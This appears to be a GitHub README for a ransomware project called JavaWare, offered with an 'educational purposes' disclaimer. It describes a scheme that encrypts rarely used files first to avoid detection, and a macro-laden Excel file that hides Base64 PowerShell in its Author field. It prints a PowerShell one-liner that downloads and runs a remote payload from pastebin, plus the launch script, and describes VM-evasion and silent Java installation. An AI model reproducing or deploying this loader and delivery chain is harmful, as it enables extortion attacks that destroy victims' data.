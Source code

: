 # JavaWare
### A Ransomware Built in Java

#### Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypts your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### How does it learn which files I use?
Maths. 
It uses a metric called *freceny* (frequency + recency) to give each file a score. Using the idea of exponential decay, it ensures that most recently used files are scored higher, and as it observes your system over the course of a week, the more a file is accessed in this time, the higher the score. It then encrypts in such a way so that files that you are not likely to be using (i.e. low scored) first, this ensures that it can go as long as possible without being noticed, allowing it to encrypt the entire filesystem. 

<img src="http://latex.codecogs.com/gif.latex?\gamma=\sum_{i=1}^n+\beta" border="0"/>
<img src="http://latex.codecogs.com/gif.latex?\beta=p\cdot {e^{-a\lambda}}" border="0"/>

Where <img src="http://latex.codecogs.com/gif.latex?p" border="0"/> is a recency weight, <img src="http://latex.codecogs.com/gif.latex?a" border="0"/> is a frequency ranking (the time since last modification in hours), and 
<img src="http://latex.codecogs.com/gif.latex?\lambda" border="0"/> is a constant


|Recency Bucket | Score |
|---------------|-------|
| Today         | 1.0   |
| Last 5 Days   | 0.9   |
| Last 10 Days  | 0.7   |
| Last 30 Days  | 0.4   |
| Last 90 Days  | 0.1   |
| > 90 Days     | 0.0   |

<img src="http://latex.codecogs.com/gif.latex?\lambda=\frac{\ln 2}{30}" border="0"/>

### How does it encrypt? :lock:
AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding <br/>
AES is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### What does it encrypt?
*FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. 

### How does it launch?
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field[2]. So the macro calls a function which gets the author, decodes it, and then runs the shell. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1538VQvN).content))))
```
This piece of code downloads another Base64 encoded powershell script, that checks whether or not the system is running in a virtual machine. If it is, it stops. This is a classic trick used by sophisticated malware such that analyst cannot then observe and reverse engineer the malware. 

Once it has established it is not in a VM, it then downloads code to check whether Java is currently installed in the system, if not, it downloads the latest version silently in the background. 

Lastly, it downloads and launches the jar. 

```powershell
$JAVA_VERSION = Get-ChildItem -Path "C:\Program Files\Java" | Select-String -Pattern 'jdk-'
$java = "C:\Program Files\Java\" + $JAVA_VERSION + "\bin\java.exe"
Start-Process -FilePath $java -ArgumentList '--module-path "C:\temp\javafx-sdk-11.0.2\lib" --add-modules=javafx.controls -jar temp\JavaWare.jar' -NoNewWindow
```

###






### References:
[\[1\]: Frecency Algorithm] (https://developer.mozilla.org/en-US/docs/Mozilla/Tech/Places/Frecency_algorithm) <br/> 
[\[2\]: The Increased Use of PowerShell in Attacks - Symantec](https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf) <br/>
Gave me the idea to put my powershell code in the auhtor field, and other useful powershell commands.

